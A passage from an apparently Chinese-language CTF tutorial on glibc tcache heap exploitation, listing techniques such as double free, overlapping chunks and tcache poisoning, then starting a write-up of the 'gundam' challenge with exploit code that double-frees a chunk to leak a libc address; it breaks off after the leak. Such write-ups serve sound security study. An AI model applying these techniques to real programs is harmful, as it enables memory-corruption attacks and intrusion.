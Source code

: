 在之前，这种利用手段主要用在fastbin，因为它的检查要少很多，包括要释放的chunk大小正确且属于fastbin，下一个chunk大小要适中，不能小于2*SIZE_SZ且不能大于已分配内存。small的检查更多。

但是若使用tcache，就只需要关心当前chunk的地址及大小，chunk大小也不仅仅是fastbin了。

2.double free

和fastbin一样，通过free同一个chunk造成loop bin，但是fastbin不能连续释放同一个chunk，而tcache没有这种限制让它适用更大的chunk。

3.Overlapping chunks

若能更改指定chunk的size，增加其值，那么在释放后进入tcache再分配更改后的对应大小就能控制其后的chunk了。

4.tcache poisoning

对于已经在tcache里面的chunk，更改它的fd值即可在malloc时分配任意地址！

5.Smallbin cache filling bck write

在unsorted bin的unlink中，它回到了最原始的unlink，未进行其他检查(如bck->fd != victim)，这样又可以进行DWORD SHOOT啦：

```
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

tcache原理及利用凡是介绍完毕，下面我们就gundam一题进行实用tcache漏洞利用

# gundam题解

程序功能如下：

```
 1 . Build a gundam
 2 . Visit gundams
 3 . Destory a gundam
 4 . Blow up the factory
 5 . Exit
```

Build:申请一块0x28大小的chunk用来存储gundam的结构，再申请一块0x300大小的chunk作为gundam的name，用户输入name的内容

Visit：打印gundam的name及类型

Destory：free指定gundam的name.没有清空指针，可多次free同一块name chunk.

Blowup:将所有gundam释放，没有释放其中的name

```
思路是利用Destory将同一块0x300大小的chunkfree两次进入tcache,再改写它的fd域，name就可以返回任意地址
```

首先泄露libc地址

```
destory(0) #0x300 tcache
destory(0)  #double free  #0x300 tcache

build(p64(heap_libc),1) #4
build('a',1) #5
build('a',1) #6 point to heap_libc

data=visit()
t2=data.index("[6] :")+5
libc=u64(data[t2:t2+6]+'\x00\x00')
```
